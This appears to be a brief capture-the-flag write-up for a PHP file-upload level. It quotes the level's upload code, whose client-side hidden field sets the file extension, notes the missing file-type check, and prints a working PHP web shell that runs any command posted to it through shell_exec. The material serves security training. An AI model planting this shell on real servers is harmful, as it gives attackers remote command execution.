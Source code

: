 ```markup
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>

<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<? } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

No filetype valiation.  
Simple PHP shell

```php
<!-- By justin-p (https://raw.githubusercontent.com/justin-p/sec-stuff/master/php/simple_shell/simple_shell.php) based of https://github.com/artyuum/Simple-PHP-Web-Shell/ -->
<?php if (empty($_POST['cmd'])) {$cmd = "";} elseif (!empty($_POST['cmd'])) {$cmd = shell_exec($_POST['cmd']);} ?>
<form method="POST"><input type="text" style="width:100%;height:25px;" name="cmd" id="cmd" value="<?php if (!empty($_POST['cmd'])) {htmlspecialchars($_POST['cmd'], ENT_QUOTES, 'UTF-8');} ?>" required><button type="submit" class="btn btn-primary">Execute</button></form>
<?php if (!$cmd && $_SERVER['REQUEST_METHOD'] != 'POST'): ?><small>Enter command.</small> <?php elseif ($cmd): ?><pre><?= htmlspecialchars($cmd, ENT_QUOTES, 'UTF-8') ?></pre> <?php elseif (!$cmd && $_SERVER['REQUEST_METHOD'] == 'POST'): ?><small>No results.</small> <?php endif; ?>
```
